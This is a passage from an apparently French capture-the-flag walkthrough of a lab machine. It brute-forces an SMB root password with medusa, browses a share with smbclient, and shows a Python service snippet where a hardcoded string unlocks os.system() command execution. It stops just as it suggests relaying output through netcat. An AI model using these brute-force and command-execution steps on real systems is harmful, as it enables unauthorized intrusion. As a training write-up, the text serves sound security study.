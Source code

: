 ```plain
[*] 10.1.1.12:445         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

$ medusa -h 10.1.1.12 -u root -P passwords.txt -M smbnt
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [smbnt] Host: 10.1.1.12 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: root (1 of 7 complete)
ACCOUNT CHECK: [smbnt] Host: 10.1.1.12 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: bidule (2 of 7 complete)
ACCOUNT CHECK: [smbnt] Host: 10.1.1.12 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: lovely (3 of 7 complete)
ACCOUNT FOUND: [smbnt] Host: 10.1.1.12 User: root Password: lovely [SUCCESS (ADMIN$ - Share Unavailable)]
```

Etna
----

On peut désormais accéder à ce partage SMB (mais pas au compte SSH petits malins) :  

```plain
$ smbclient -U root -I 10.1.1.12 //phoenix/scripts
WARNING: The "syslog" option is deprecated
mkdir failed on directory /var/run/samba/msg.lock: Permission non accordée
Unable to initialize messaging context
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 23 20:25:02 2018
  ..                                  D        0  Sun Sep 16 11:50:19 2018
  test.py                             A        0  Wed Jun 13 19:52:43 2018
  fucking_coffee.py                   A      672  Thu Jun 14 22:09:10 2018
  hackerutils.py                      A      486  Thu Jun 14 22:09:10 2018
  hangover.py                         A     1216  Thu Jun 14 22:09:10 2018
  admin-console.py                    N     2462  Sat Jun 23 20:34:44 2018

        5774684 blocks of size 1024. 3091832 blocks available
```

Le script qui nous intéresse ici est *admin-console* qui correspond au service sur le port 2003.  

Les lignes intéressantes sont les suivantes :  

```python
if  "tom33094" in (data) :
    client.send("Welcome Tom ! ".encode())
    client.send("String ? ".encode())
    stringo = client.recv(1024).decode()
    execute(stringo)
```

La fonction *execute()* appelle *os.system()*. On peut donc faire exécuter des commandes sans obtenir l'output, à moins de relayer via le *netcat* présent sur la machine :  
